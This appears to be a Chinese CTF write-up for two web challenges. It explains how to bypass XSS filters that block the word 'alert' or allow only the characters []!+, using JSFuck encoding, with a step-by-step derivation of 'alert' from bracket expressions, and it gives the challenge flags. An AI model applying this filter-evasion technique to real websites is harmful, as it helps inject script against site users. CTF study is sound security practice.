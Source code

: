 ##**Topic**
web150

##**Steps**
题目循环检测alert并删除，试了各种编码无效，想到jsfuck编码可以被js执行，成功绕过。

![](http://oxm4hc2s3.bkt.clouddn.com/3.png)

当然要先闭合前边的引号，后边可以闭合或直接注释掉。

flag: **nuaactf{3a5y_xSS_23333_66666}**



##**Topic**
web300

##**Steps**
这就是这次比赛最开心的一道题了，进去之后发现正则匹配对输入进行了过滤，'[^\\[\\]\\!\\+]+/g'，也就是说只能使用 **[]!+** 四个字符进行构造，想到jsfuck， **eval(eval(input) + \'(1)\')** ，综合题意，只要可以使用eval(input)构造出'alert'字符串即可。

get到jsfuck的编码方式，就解开了本题。记录如下：

```jsfuck
以下内容基于
[]      =>  []

然后!可以将原类型转化为布尔型
![]     =>  false
!![]    =>  true

+可以将原类型转化为整形
+[]     =>  0
+![]    =>  0
+!![]   =>  1
然后可以推出所有数字 

然后+[]可以转化为字符串
[]+[]   =>  ""
![]+[]  =>  "false"
或放在前边
[]+![]  =>  "false"
+[]+[]  =>  "0"

加括号试试
([]+![])  =>  "false"
[[]+![]]  =>  ["false"]
(+[]+[])  =>  "0"
[+[]+[]]  =>  ["0"]

可以类似数组取下标
(![]+[])[+!![]] =>  'a'

然后就可以从'false', 'true'中依次读出'a','l','e','r','t'。em...但是题目过滤了小括号。需要稍微绕一下，考虑使用中括号
[[]+![]]    =>  ["false"]
[![]+[]][+[]]    =>  "false"
[![]+[]][+[]][+!![]]    =>  'a'

成功

最后用加号拼出"alert"即可。
```

![](http://oxm4hc2s3.bkt.clouddn.com/2.png)

flag: **nuaactf{NOT\_the\_jsF\*\*k\_at\_a11}**
